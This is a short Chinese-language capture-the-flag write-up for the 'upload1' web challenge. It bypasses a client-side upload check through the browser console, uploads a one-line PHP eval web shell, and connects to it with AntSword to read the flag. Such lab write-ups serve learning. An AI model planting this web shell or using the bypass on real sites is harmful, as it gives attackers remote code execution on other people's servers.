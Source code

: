 ```yaml
---
title: 攻防世界web进阶upload1
date: 2020-03-13 21:43:51
id:	20200313214351
tags:
	- Web
	- CTF
categories: 网络安全
---
```


打开网站，发现只存在一个选择文件框和一个上传按钮。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200313214718.png)

我们可以考虑直接上传一个一句话木马尝试。

```php
<?php @eval($_POST['shell']);?>
```

![](https://superj.oss-cn-beijing.aliyuncs.com/20200313214815.png)

快速弹出警告框，让上传图片文件。猜测是前端js判断。

`F12`打开控制台，成功发现js代码，右击直接删掉。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200313215055.png)

重新选择一句话木马，此时发现上传按钮无法点击，在`F12`的`console`中将按钮的`disabled`设置为`false`。

```js
submit.disabled=false
```

按钮的id值可通过源代码查看得到。

点击上传，得到上传路劲。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200313215438.png)

通过蚁剑连接一句话木马，成功得到flag。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200313215540.png)

### 后记

后来写wp的时候，发现可以省略删除js源码那一步，因为虽然弹窗了，但是没有清空选择的文件，可以直接通过更改按钮属性直接上传。

### 总结

写了几道php源码的题，什么phps源码泄露、反序列化，头大，碰到这道简单的，开心死了。